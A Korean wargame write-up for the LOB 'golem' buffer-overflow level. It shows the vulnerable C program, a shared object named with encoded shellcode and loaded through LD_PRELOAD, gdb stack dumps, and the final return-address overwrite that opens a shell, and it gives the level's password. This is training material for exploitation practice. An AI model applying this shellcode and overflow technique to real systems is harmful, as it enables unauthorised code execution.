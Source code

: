 # golem

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // stack destroyer!
        memset(buffer, 0, 44);
        memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

버퍼로부터 48번째 위까지 싹다 초기화시키는 조건이 추가된 문제이다. 

처음 봤을때부터 이건 답이 없다고 생각해서 바로 write-up을 찾아보고 공부하기 시작했다. 

찾았을 때 제일 먼저 보인 것은 LD-PRELOAD라는 것인데, 

LD_PRELOAD는 라이브러리에 있지 않은 것을 사용하려고 할때 등록하면 프로그램이 메모리에 적제되긴 전에 먼저 적제해주는 환경 변수이다.

쉽게 이해하자면 마지막에 있는 memset이 지우지 못하는 스택위치에 환경변수가 올라가게 된다(프로그램보다 먼저 메모리에 올라가기 때문에) 그렇다면 이 환경 변수에 쉘코드를 심어야하는데 프로그램의 이름이 등록되는 것이므로 쉘코드를 포함하고 있는 파일을 하나 만들어 환경 변수로 등록한 후 gdb로 스택 어디에 존재하는지 확인한 뒤에 ret에 덥어 쓰면 성공할 것이다. 

그럼 일단 파일을 생성해보자. 실행파일이어야 하고 참조 가능한 공유 object를 컴파일 해야 하므로 빈 파일을 만든 뒤 컴파일에 옵션(-fPIC -shared)을 줘서 만들어 보자. 파일 이름이므로 당연히 2f는 없어야 한다.

```bash
[skeleton@localhost skeleton]$ touch tmp.c
[skeleton@localhost skeleton]$ gcc -fPIC -shared tmp.c -o `python -c 'print "j"+"\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
[skeleton@localhost skeleton]$ ls
golem
golem.c
j????????????????????????????????????????????????????????????????????????????????????????????????????▒?^1ɱ2?l?▒??▒?u▒▒?▒▒▒▒▒2▒Qi00tii0cjo?▒QT?▒?▒?▒?
tmp.c
```

다음으로 환경 변수 RD_PRELOAD에 파일의 경로를 등록한다.

```bash
[skeleton@localhost skeleton]$ export LD_PRELOAD="/home/skeleton/`python -c 'print "j"+"\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```

이제 gdb로 LD_PRELOAD가 스택 어느 위치에 등록되어 있는지 확인해보자.

파일을 복사하고 gdb로 열어서 breakpoint를 memset후에 걸고 실행될 수 있는 조건에 맞게 입력을 넣어준다.

```bash
[skeleton@localhost skeleton]$ cp golem atack
[skeleton@localhost skeleton]$ gdb -q atack
(gdb) b*main+163
Breakpoint 1 at 0x8048513
(gdb) r `python -c 'print "\xbf"*48'`
Starting program: /home/skeleton/atack `python -c 'print "\xbf"*48'`
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒

Breakpoint 1, 0x8048513 in main ()
```

$esp보다 위에 존재할 것이므로 $esp - 300, 500, 1000, 2000을 줘봤는데 적어도 2000은 줘야 \x90으로 채워진 NOP sled가 확인된다.

```assembly
(gdb) x/100x $esp-2000
0xbffff49c:     0x400041b0      0x00000001      0x0804859c      0x40001528
0xbffff4ac:     0x000002c8      0x00000000      0x080482d0      0x00000000
0xbffff4bc:     0x00000000      0x40000824      0xbffff4d0      0x400075bb
0xbffff4cc:     0x40017000      0x00002fb2      0x40013868      0xbffff6b4
0xbffff4dc:     0x4000380e      0x40014478      0x6d6f682f      0x6b732f65
0xbffff4ec:     0x74656c65      0x6a2f6e6f      0x90909090      0x90909090
0xbffff4fc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff50c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff51c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff52c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff53c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff54c:     0x90909090      0x90909090      0x90909090      0x315e11eb
0xbffff55c:     0x8032b1c9      0x01ff0e6c      0x7501e980      0xe805ebf6
0xbffff56c:     0xffffffea      0x6951c132      0x69743030      0x6a633069
0xbffff57c:     0x51e48a6f      0x9ae28a54      0x81ce0cb1      0x40002900
0xbffff58c:     0x40013868      0x4000220c      0xbffffac3      0x00000000
0xbffff59c:     0x00000000      0x00000000      0x00000000      0x40014a00
0xbffff5ac:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff5bc:     0x00000006      0x00000000      0x00000000      0x00000000
0xbffff5cc:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff5dc:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff5ec:     0x00000000      0x00000000      0x00000001      0x00000000
0xbffff5fc:     0x00000001      0xbffff4e0      0x00060000      0x00000000
0xbffff60c:     0x00000000      0x00000000      0x00000001      0x00000000
0xbffff61c:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb) Quit
```

ret으로 0xbffff50c정도 주면 될 것 같다. golem에 직접 공격해보자.

```bash
[skeleton@localhost skeleton]$ ./golem `python -c 'print "\x90"*44+"\x0c\xf5\xff\xbf"'`
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒▒▒
bash$ whoami
golem
bash$ my-pass
euid = 511
cup of coffee
```

golem의 password는 cup of coffee이다.

